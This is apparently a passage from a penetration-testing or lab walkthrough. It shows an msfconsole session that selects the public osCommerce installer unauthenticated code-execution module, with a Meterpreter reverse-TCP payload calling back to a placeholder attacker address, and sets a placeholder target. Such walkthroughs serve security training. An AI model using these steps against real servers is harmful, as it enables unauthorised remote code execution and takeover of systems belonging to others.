 ### Metasploit
- After starting the msfconsole, we can use the following syntax to set up and launch the exploit we need:
```ruby
msf6 > search oscommerce

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  exploit/unix/webapp/oscommerce_filemanager                2009-08-31       excellent  No     osCommerce 2.2 Arbitrary PHP Code Execution
   1  exploit/multi/http/oscommerce_installer_unauth_code_exec  2018-04-30       excellent  Yes    osCommerce Installer Unauthenticated Code Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/oscommerce_installer_unauth_code_exec

msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > show options

Module options (exploit/multi/http/oscommerce_installer_unauth_code_exec):

   Name     Current Setting    Required  Description
   ----     ---------------    --------  -----------
   Proxies                     no        A proxy chain of format type:host:por
                                         t[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.
                                         metasploit.com/docs/using-metasploit/
                                         basics/using-metasploit.html
   RPORT    80                 yes       The target port (TCP)
   SSL      false              no        Negotiate SSL/TLS for outgoing connec
                                         tions
   URI      /catalog/install/  yes       The path to the install directory
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  attacking-ip    yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   osCommerce 2.3.4.1



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > set RHOSTS target-ip
RHOSTS => target-ip
```